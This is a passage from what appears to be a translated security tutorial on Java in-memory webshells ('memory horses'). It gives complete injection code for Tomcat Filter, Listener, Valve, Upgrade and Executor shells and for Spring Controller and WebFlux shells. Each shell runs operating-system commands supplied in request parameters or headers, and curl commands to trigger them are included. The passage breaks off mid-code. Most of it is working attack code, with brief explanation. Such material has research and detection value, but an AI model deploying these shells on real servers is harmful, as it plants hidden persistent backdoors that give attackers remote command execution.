ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
filterConfigs.put(filterName, applicationFilterConfig);
```

That is, we define our own `filterDef` and `FilterMap` and add it to `srandardContext`, then reflect the constructor of the `ApplicationFilterConfig` class and set the constructor to accessible. Then we create an instance of the `ApplicationFilterConfig` object, and then add the instance we just created to the `Map` of the filter configuration with `filterName` as the key, so that the dynamically created filter configuration information can be added to the application's global configuration.

It should be noted that the package names to which the two classes `tomcat 7` and before `FilterDef` and `FilterMap` belong are:

```jsp
<%@ page import="org.apache.catalina.deploy.FilterMap" %>
<%@ page import="org.apache.catalina.deploy.FilterDef" %>
```

`tomcat 8` and later, the package name is like this:

```jsp
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
```

Due to the difference in this aspect, it is best to directly use reflection to write this `filter` memory horse. For specific `demo` reference:

> https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/tomcat/FilterBasedWithoutRequestVariant.java

Another point to note is that the `demo` code I gave is only applicable to `tomcat 7` and above, because `filterMap.setDispatcher(DispatcherType.REQUEST.name());` `DispatcherType` used in this line of code is only available in the `Servlet 3.0` specification.

### 3.2.3 Writing of filter memory horse under tomcat6

I will post a reference article here directly. If you have time later, I will complete this part of the research in my blog:

> https://xz.aliyun.com/t/9914
>
> https://mp.weixin.qq.com/s/sAVh3BLYNHShKwg3b7WZlQ
>
> https://www.cnblogs.com/CoLo/p/16840371.html
>
> https://flowerwind.github.io/2021/10/11/tomcat6、7、8、9内存马/
>
> https://9bie.org/index.php/archives/960/
>
> https://github.com/xiaopan233/GenerateNoHard
>
> https://github.com/ax1sX/MemShell/tree/main/TomcatMemShell

## 3.3 Listener memory horse

### 3.3.1 Simple Listener memory horse demo written

Based on what we discussed in Section 2.9 above, we can draw the following conclusions:

If we want to write a `Listener` memory horse, we need to go through the following steps:

- Inherit and write a malicious `Listener`
- Get `StandardContext`
- Call `StandardContext.addApplicationEventListener()` to add malicious `Listener`

From the above conclusions, we can write the following memory horse `demo`:

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>

<%!
    public class EvilListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().setCharacterEncoding("GBK");
                    request.getResponse().getWriter().write(out);
                }
                catch (Exception ignored) {}
            }
        }
        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    EvilListener evilListener = new EvilListener();
    context.addApplicationEventListener(evilListener);
    out.println("[+]&nbsp;&nbsp;&nbsp;&nbsp;Inject Listener Memory Shell successfully!<br>[+]&nbsp;&nbsp;&nbsp;&nbsp;Shell url: http://localhost:8080/test/?cmd=ipconfig");
%>
```

The effects are as follows:


### 3.3.2 Listener memory horse demo code analysis

The most critical part of the code is as follows:

```java
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext context = (StandardContext) req.getContext();
EvilListener evilListener = new EvilListener();
context.addApplicationEventListener(evilListener);
```

The first four lines of code do one thing: get the `StandardContext`; the last two lines of code do these two things: instantiate the malicious `Listener` we wrote, call the `addApplicationEventListener` method and add it to the `applicationEventListenersList`, so that you will eventually go to the `eventListener`.

# 4. Spring MVC frame-type memory horse

## 4.1 Spring Controller memory horse

### 4.1.1 Simple Spring Controller type memory horse demo writing

From the analysis in Section 2.11.2.2, we can see that to write a `spring controller` type memory horse, the following steps are required:

- Get `WebApplicationContext`
- Get the `RequestMappingHandlerMapping` instance
- Getting the `Method` object of the malicious method of custom `Controller` by reflection
- Definition `RequestMappingInfo`
- Dynamic Registration `Controller`

The code is as follows:

```java
package org.example.springcontrollermemoryshellexample.demos.web;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Scanner;

@RestController
public class TestEvilController {

    private String getRandomString() {
        String characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
        StringBuilder randomString = new StringBuilder();
        for (int i = 0; i < 8; i++) {
            int index = (int) (Math.random() * characters.length());
            randomString.append(characters.charAt(index));
        }
        return randomString.toString();
    }

    @RequestMapping("/inject")
    public String inject() throws Exception{
        String controllerName = "/" + getRandomString();
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Method method = InjectedController.class.getMethod("cmd");
        PatternsRequestCondition urlPattern = new PatternsRequestCondition(controllerName);
        RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(urlPattern, condition, null, null, null, null, null);
        InjectedController injectedController = new InjectedController();
        requestMappingHandlerMapping.registerMapping(info, injectedController, method);
        return "[+] Inject successfully!<br>[+] shell url: http://localhost:8080" + controllerName + "?cmd=ipconfig";
    }

    @RestController
    public static class InjectedController {

        public InjectedController(){
        }

        public void cmd() throws Exception {
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
            response.setCharacterEncoding("GBK");
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            }
        }
    }
}
```

Running effect:


### 4.1.2 Spring Controller memory horse demo code analysis

The key to the code lies in the following lines:

```java
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
Method method = InjectedController.class.getMethod("cmd");
PatternsRequestCondition urlPattern = new PatternsRequestCondition(controllerName);
RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();
RequestMappingInfo info = new RequestMappingInfo(urlPattern, condition, null, null, null, null, null);
InjectedController injectedController = new InjectedController();
requestMappingHandlerMapping.registerMapping(info, injectedController, method);
```

This code first uses `RequestContextHolder` to obtain the current requested `WebApplicationContext`. This `RequestContextHolder` is a tool class provided by the Spring framework for storing and accessing request-related information; then obtain the `RequestMappingHandlerMapping Bean` from the `WebApplicationContext` obtained in the previous step; then obtain the `Method` object of our custom `Controller` malicious method through reflection, and then get the corresponding `RequestMappingInfo` object; use the `bean` instance + the `method` process the request + the corresponding `RequestMappinginfo` object to call the `registerMapping` method to dynamically add the malicious `controller`.

## 4.2 Spring Interceptor type memory horse

From the analysis of section 2.11.2.3, we can easily draw the idea of ​​writing the `Spring Interceptor` type memory horse:

- Get `ApplicationContext`
- Get `adaptedInterceptors through `AbstractHandlerMapping` reflection`
- Put the malicious interceptor to be injected into `adaptedInterceptors`

I will put the specific code into the memory for the actual middleware.

## 4.3 Spring WebFlux Memory Horse

### 4.3.1 Simple Spring WebFlux memory horse demo written

From the analysis of section 2.12.5 we can write the following code:

```java
package org.example.webfluxmemoryshelldemo.memoryshell;

import org.springframework.boot.web.embedded.netty.NettyWebServer;
import org.springframework.context.annotation.Configuration;
import org.springframework.core.io.buffer.DataBuffer;
import org.springframework.core.io.buffer.DefaultDataBufferFactory;
import org.springframework.http.MediaType;
import org.springframework.http.server.reactive.ReactorHttpHandlerAdapter;
import org.springframework.http.server.reactive.ServerHttpRequest;
import org.springframework.http.server.reactive.ServerHttpResponse;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import org.springframework.web.server.WebHandler;
import org.springframework.web.server.adapter.HttpWebHandlerAdapter;
import org.springframework.web.server.handler.DefaultWebFilterChain;
import org.springframework.web.server.handler.ExceptionHandlingWebHandler;
import org.springframework.web.server.handler.FilteringWebHandler;
import reactor.core.publisher.Flux;
import reactor.core.publisher.Mono;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.lang.reflect.Modifier;
import java.nio.charset.StandardCharsets;
import java.util.ArrayList;
import java.util.List;

@Configuration
public class MemoryShellFilter implements WebFilter{

    public static void doInject() {
        Method getThreads;
        try {
            getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Object threads = getThreads.invoke(null);
            for (int i = 0; i < Array.getLength(threads); i++) {
                Object thread = Array.get(threads, i);
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                    NettyWebServer nettyWebServer = (NettyWebServer) getFieldValue(thread, "this$0", false);
                    ReactorHttpHandlerAdapter reactorHttpHandlerAdapter = (ReactorHttpHandlerAdapter) getFieldValue(nettyWebServer, "handler", false);
                    Object delayedInitializationHttpHandler = getFieldValue(reactorHttpHandlerAdapter,"httpHandler", false);
                    HttpWebHandlerAdapter httpWebHandlerAdapter = (HttpWebHandlerAdapter) getFieldValue(delayedInitializationHttpHandler,"delegate", false);
                    ExceptionHandlingWebHandler exceptionHandlingWebHandler = (ExceptionHandlingWebHandler) getFieldValue(httpWebHandlerAdapter,"delegate", true);
                    FilteringWebHandler filteringWebHandler = (FilteringWebHandler) getFieldValue(exceptionHandlingWebHandler,"delegate", true);
                    DefaultWebFilterChain defaultWebFilterChain = (DefaultWebFilterChain) getFieldValue(filteringWebHandler,"chain", false);
                    Object handler = getFieldValue(defaultWebFilterChain, "handler", false);
                    List<WebFilter> newAllFilters = new ArrayList<>(defaultWebFilterChain.getFilters());
                    newAllFilters.add(0, new MemoryShellFilter());
                    DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler, newAllFilters);
                    Field f = filteringWebHandler.getClass().getDeclaredField("chain");
                    f.setAccessible(true);
                    Field modifersField = Field.class.getDeclaredField("modifiers");
                    modifersField.setAccessible(true);
                    modifersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);
                    f.set(filteringWebHandler, newChain);
                    modifersField.setInt(f, f.getModifiers() & Modifier.FINAL);
                }
            }
        } catch (Exception ignored) {}
    }

    public static Object getFieldValue(Object obj, String fieldName,boolean superClass) throws Exception {
        Field f;
        if(superClass){
            f = obj.getClass().getSuperclass().getDeclaredField(fieldName);
        }else {
            f = obj.getClass().getDeclaredField(fieldName);
        }
        f.setAccessible(true);
        return f.get(obj);
    }

    public Flux<DataBuffer> getPost(ServerWebExchange exchange) {
        ServerHttpRequest request = exchange.getRequest();
        String path = request.getURI().getPath();
        String query = request.getURI().getQuery();

        if (path.equals("/evil/cmd") && query != null && query.startsWith("command=")) {
            String command = query.substring(8);
            try {
                Process process = Runtime.getRuntime().exec("cmd /c" + command);
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream(), "GBK"));
                Flux<DataBuffer> response = Flux.create(sink -> {
                    try {
                        String line;
                        while ((line = reader.readLine()) != null) {
                            sink.next(DefaultDataBufferFactory.sharedInstance.wrap(line.getBytes(StandardCharsets.UTF_8)));
                        }
                        sink.complete();
                    } catch (IOException ignored) {}
                });

                exchange.getResponse().getHeaders().setContentType(MediaType.TEXT_PLAIN);
                return response;
            } catch (IOException ignored) {}
        }
        return Flux.empty();
    }

    @Override
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        if (exchange.getRequest().getURI().getPath().startsWith("/evil/")) {
            doInject();
            Flux<DataBuffer> response = getPost(exchange);
            ServerHttpResponse serverHttpResponse = exchange.getResponse();
            serverHttpResponse.getHeaders().setContentType(MediaType.TEXT_PLAIN);
            return serverHttpResponse.writeWith(response);
        } else {
            return chain.filter(exchange);
        }
    }
}
```


### 4.3.2 Spring WebFlux memory horse demo code analysis

From the previous analysis, we know that the main idea is to find `DefaultWebFilterChain` through reflection, then get `filters`, insert our `filter` into the first place, and then use this `filters` to re-call the public constructor `DefaultWebFilterChain`, and assign it to the `this.chain` I didn't see in the previous analysis.

This is the idea. Let’s look at the specific code.

First, we obtain all the currently running thread groups through reflection, and then iterate through the thread array to check whether each thread is an instance of `NettyWebServer`. If you find that a thread is `NettyWebServer`, then continue with the next step. Next is to find the `DefaultWebFilterChain` object:

```java
NettyWebServer nettyWebServer = (NettyWebServer) getFieldValue(thread, "this$0", false);
ReactorHttpHandlerAdapter reactorHttpHandlerAdapter = (ReactorHttpHandlerAdapter) getFieldValue(nettyWebServer, "handler", false);
Object delayedInitializationHttpHandler = getFieldValue(reactorHttpHandlerAdapter,"httpHandler", false);
HttpWebHandlerAdapter httpWebHandlerAdapter = (HttpWebHandlerAdapter) getFieldValue(delayedInitializationHttpHandler,"delegate", false);
ExceptionHandlingWebHandler exceptionHandlingWebHandler = (ExceptionHandlingWebHandler) getFieldValue(httpWebHandlerAdapter,"delegate", true);
FilteringWebHandler filteringWebHandler = (FilteringWebHandler) getFieldValue(exceptionHandlingWebHandler,"delegate", true);
DefaultWebFilterChain defaultWebFilterChain = (DefaultWebFilterChain) getFieldValue(filteringWebHandler,"chain", false);
```

This chain has been mentioned in previous analysis, just call the `getFieldValue` function we wrote step by step.

Then modify this filter chain, add our customized malicious filter, and put it first:

```java
Object handler = getFieldValue(defaultWebFilterChain, "handler", false);
List<WebFilter> newAllFilters = new ArrayList<>(defaultWebFilterChain.getFilters());
newAllFilters.add(0, new MemoryShellFilter());
DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler, newAllFilters);
```

Then obtain the private field `chain` of `FilteringWebHandler` by reflection, after setting it to accessible, replace the original filter chain with the newly created filter chain `newChain` by reflection, and then restore the field's accessibility:

```java
Field f = filteringWebHandler.getClass().getDeclaredField("chain");
f.setAccessible(true);
Field modifersField = Field.class.getDeclaredField("modifiers");
modifersField.setAccessible(true);
modifersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);
f.set(filteringWebHandler, newChain);
modifersField.setInt(f, f.getModifiers() & Modifier.FINAL);
```

Here we add the meanings of the above `modifersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);` and `modifersField.setInt(f, f.getModifiers() & Modifier.FINAL);`. The first code means to use the reflection mechanism to modify the field modifier through the `modifersField` object. `f.getModifiers()` returns the current modifier of the field `f`, and then pass the bit operation`& ~Modifier.FINAL`, clearing the `FINAL` bit of the current modifier (set to `0`), means removing the `FINAL` modifier; the second is to reset the field modifier to a modifier containing the `FINAL` modifier, so that the field can be encapsulated.

# 5. Middleware memory horse

## 5.1 Tomcat Valve type memory horse

I have created a new project here and created a configured `web` directory and `tomcat` environment. The dependencies in `pom.xml` are as follows:

```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>9.0.83</version>
        </dependency>
    </dependencies>
```

> If idea starts Tomcat and reports an error, you can see if you have enabled NetEase Cloud Hahaha:
>
> 

Create a new `666.jsp` in the `web` directory:

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    final Request req = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline evilStandardPipeline = (StandardPipeline) pipelineField.get(standardContext);
    ValveBase evilValve = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws ServletException,IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.setCharacterEncoding("GBK");
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
            }
            this.getNext().invoke(request, response);
        }
    };
    evilStandardPipeline.addValve(evilValve);
    out.println("inject success");
%>
```

The above uses the method of obtaining the StandardPipeline from the `StandardContext` reflection, and the effect is as follows:


The following is implemented by calling `standardContext.getPipeline().addValve`:

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  class testEvilValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws ServletException,IOException {
      if (request.getParameter("command") != null) {
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
          isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("command")} : new String[]{"cmd.exe", "/c", request.getParameter("command")};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
        String output = s.hasNext() ? s.next() : "";
        response.setCharacterEncoding("GBK");
        PrintWriter out = response.getWriter();
        out.println(output);
        out.flush();
        out.close();
      }
      this.getNext().invoke(request, response);
    }
  };
%>

<%
  Field requestField = request.getClass().getDeclaredField("request");
  requestField.setAccessible(true);
  final Request req = (Request) requestField.get(request);
  StandardContext standardContext = (StandardContext) req.getContext();
  standardContext.getPipeline().addValve(new testEvilValve());
  out.println("inject success");
%>
```

The effects are as follows:


## 5.2 Tomcat Upgrade Memory Horse

From the analysis in Section 2.14.2, we can write the following `java` code:

```java
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.catalina.connector.Connector;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Request;
import org.apache.coyote.Adapter;
import org.apache.coyote.Processor;
import org.apache.coyote.UpgradeProtocol;
import org.apache.coyote.Response;
import org.apache.coyote.http11.AbstractHttp11Protocol;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.util.HashMap;

@WebServlet("/evil")
public class TestUpgrade extends HttpServlet {

    static class MyUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapperBase, Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            String p = request.getHeader("cmd");
            try {
                String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                Response resp = (Response) response.get(request);
                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream(), "GBK").useDelimiter("\\A").next().getBytes();
                resp.setCharacterEncoding("GBK");
                resp.doWrite(ByteBuffer.wrap(result));
            } catch (Exception ignored) {}
            return false;
        }
    }
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        try {
            RequestFacade rf = (RequestFacade) req;
            Field requestField = RequestFacade.class.getDeclaredField("request");
            requestField.setAccessible(true);
            Request request1 = (Request) requestField.get(rf);

            Field connector = Request.class.getDeclaredField("connector");
            connector.setAccessible(true);
            Connector realConnector = (Connector) connector.get(request1);

            Field protocolHandlerField = Connector.class.getDeclaredField("protocolHandler");
            protocolHandlerField.setAccessible(true);
            AbstractHttp11Protocol handler = (AbstractHttp11Protocol) protocolHandlerField.get(realConnector);

            HashMap<String, UpgradeProtocol> upgradeProtocols;
            Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
            upgradeProtocolsField.setAccessible(true);
            upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);

            MyUpgrade myUpgrade = new MyUpgrade();
            upgradeProtocols.put("hello", myUpgrade);

            upgradeProtocolsField.set(handler, upgradeProtocols);
        } catch (Exception ignored) {}
    }
}
```

After running, execute the command `curl -H "Connection: Upgrade" -H "Upgrade: hello" -H "cmd: dir" http://localhost:8080/evil`, and the result is as follows:


The `jsp` version is:

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.coyote.http11.AbstractHttp11Protocol" %>
<%@ page import="org.apache.coyote.UpgradeProtocol" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="org.apache.coyote.Processor" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="org.apache.coyote.Adapter" %>
<%@ page import="org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.nio.ByteBuffer" %>
<%
    class MyUpgrade implements UpgradeProtocol {
        public String getHttpUpgradeName(boolean isSSLEnabled) {
            return "hello";
        }

        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        public String getAlpnName() {
            return null;
        }

        public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapper, Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            String p = request.getHeader("cmd");
            try {
                String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                org.apache.coyote.Response resp = (org.apache.coyote.Response) response.get(request);
                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream(), "GBK").useDelimiter("\\A").next().getBytes();
                resp.setCharacterEncoding("GBK");
                resp.doWrite(ByteBuffer.wrap(result));
            } catch (Exception ignored){}
            return false;
        }
    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    Field conn = Request.class.getDeclaredField("connector");
    conn.setAccessible(true);
    Connector connector = (Connector) conn.get(req);
    Field proHandler = Connector.class.getDeclaredField("protocolHandler");
    proHandler.setAccessible(true);
    AbstractHttp11Protocol handler = (AbstractHttp11Protocol) proHandler.get(connector);
    HashMap<String, UpgradeProtocol> upgradeProtocols = null;
    Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
    upgradeProtocolsField.setAccessible(true);
    upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);
    upgradeProtocols.put("hello", new MyUpgrade());
    upgradeProtocolsField.set(handler, upgradeProtocols);
%>
```

After starting the project, execute the following two commands:

```powershell
curl http://localhost:8080/666.jsp
curl -H "Connection: Upgrade" -H "Upgrade: hello" -H "cmd: dir" http://localhost:8080/666.jsp
```


## 5.3 Tomcat Executor Memory Horse

From the analysis of `2.15.2.3`, we can write the following memory horse:

```jsp
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.ThreadFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.net.URLEncoder" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    public Object getField(Object object, String fieldName) {
        Field declaredField;
        Class<?> clazz = object.getClass();
        while (clazz != Object.class) {
            try {
                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException ignored) {}
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    public Object getStandardService() {
        Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = this.getField(thread, "target");
                Object jioEndPoint = null;
                try {
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception e) {
                }
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                        return jioEndPoint;
                    } catch (Exception e) {
                        new Object();
                    }
                } else {
                    return jioEndPoint;
                }
            }

        }
        return new Object();
    }

    class threadexcutor extends ThreadPoolExecutor {

        public threadexcutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory, RejectedExecutionHandler handler) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory, handler);
        }

        public void getRequest(Runnable command) {
            try {
                ByteBuffer byteBuffer = ByteBuffer.allocate(16384);
                byteBuffer.mark();
                SocketWrapperBase socketWrapperBase = (SocketWrapperBase) getField(command,"socketWrapper");
                socketWrapperBase.read(false,byteBuffer);
                ByteBuffer readBuffer = (ByteBuffer) getField(getField(socketWrapperBase,"socketBufferHandler"),"readBuffer");
                readBuffer.limit(byteBuffer.position());
                readBuffer.mark();
                byteBuffer.limit(byteBuffer.position()).reset();
                readBuffer.put(byteBuffer);
                readBuffer.reset();
                String a = new String(readBuffer.array(), StandardCharsets.UTF_8);
                if (a.contains("hacku")) {
                    String b = a.substring(a.indexOf("hacku") + "hacku".length() + 1, a.indexOf("\r", a.indexOf("hacku"))).trim();
                    if (b.length() > 1) {
                        try {
                            Runtime rt = Runtime.getRuntime();
                            Process process = rt.exec("cmd /c " + b);
                            java.io.InputStream in = process.getInputStream();
                            java.io.InputStreamReader resultReader = new java.io.InputStreamReader(in);
                            java.io.BufferedReader stdInput = new java.io.BufferedReader(resultReader);
                            StringBuilder s = new StringBuilder();
                            String tmp;
                            while ((tmp = stdInput.readLine()) != null) {
                                s.append(tmp);
                            }
                            if (!s.toString().isEmpty()) {
                                byte[] res = s.toString().getBytes(StandardCharsets.UTF_8);
                                getResponse(res);
                            }
                        } catch (IOException ignored) {}
                    }
                }
            } catch (Exception ignored) {}
        }

        public void getResponse(byte[] res) {
            try {
                Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (!threadName.contains("exec") && threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
